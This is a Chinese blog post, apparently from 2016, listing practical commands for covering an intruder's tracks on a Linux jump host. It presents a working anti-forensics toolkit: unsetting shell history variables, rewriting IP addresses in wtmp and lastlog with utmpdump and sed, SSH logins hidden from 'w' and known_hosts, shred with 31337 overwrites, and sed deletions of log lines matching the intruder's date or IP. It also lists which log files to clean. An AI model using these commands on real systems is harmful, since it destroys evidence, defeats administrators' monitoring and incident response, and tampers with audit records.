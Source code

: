 ```yaml
---
title: Linux跳板实用命令记录
tags:
- last
- shred
- utmpdump
- fwtmp
toc: flase
date: 2016-08-08 08:19:47
description:
categories: Share
---
```

上篇文章Linux下入侵匿迹隐藏的方法,是一些大牛的思路和操作命令,下面有些是已经重复的,主要是做个记录,把常用的命令都整理下

登录后执行下面命令,不记录历史命令(.bash_history)

```bash
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG; export HISTFILE=/dev/null; export HISTSIZE=0; export HISTFILESIZE=0
```
last命令结果修改ip(如果修改用户什么的,自己修改下把)
Centos
```bash
utmpdump /var/log/wtmp |sed "s/8.8.8.8/1.1.1.1/g" |utmpdump -r >/tmp/wtmp1 &&\mv  /tmp/wtmp1 /var/log/wtmp
```
lastlog 修改替换
```bash
sed -i 's/192.168.1.1/8.8.8.8/' /var/log/lastlog
```
<!-- more -->
不记录ssh公钥在本地.ssh目录中
```bash
ssh -o UserKnownHostsFile=/dev/null -T user@host /bin/bash –i
```
多次覆盖文件，使得即使是昂贵的硬件探测仪器也难以将数据复原 -n, --iterations=N 覆盖N 次，而非使用默认的3 次。
```bash
shred -n 31337 -z -u filename
```
-n, --iterations=N 覆盖N 次，而非使用默认的3 次
-z, --zero 最后一次使用0 进行覆盖以隐藏覆盖动作
-u, --remove 覆盖后截断并删除文件

登录账户 w下管理员是看不到的
```bash
ssh -T somebody@8.8.8.8 /bin/bash –i
```
日志文件
/var/log/message 系统启动后的信息和错误日志，是Red Hat Linux中最常用的日志之一
/var/log/secure 与安全相关的日志信息
/var/log/maillog 与邮件相关的日志信息
/var/log/cron 与定时任务相关的日志信息
/var/log/spooler 与UUCP和news设备相关的日志信息
/var/log/boot.log 守护进程启动和停止相关的日志消息
/var/log/btmp – 记录所有失败登录信息 命令:lastb
/var/log/auth.log 系统授权信息，包括用户登录和使用的权限机制等 (debian)

删除部分日志,比如以当天日期或者自己的登录ip
```bash
sed  -i '/当前时间/'d  /var/log/messages
```
本来想自动提取当前时间,感觉麻烦,还是自己手动修改时间或者ip把,适用性也会 好点把

个人建议登录linux,使用winscp工具连接,选择sftp协议,执行命令或者操作目录文件,在history,lastlog,last,w下不会有记录,
但是在/var/log/secure会有sftp连接记录,只需要清理登录日志就可以了

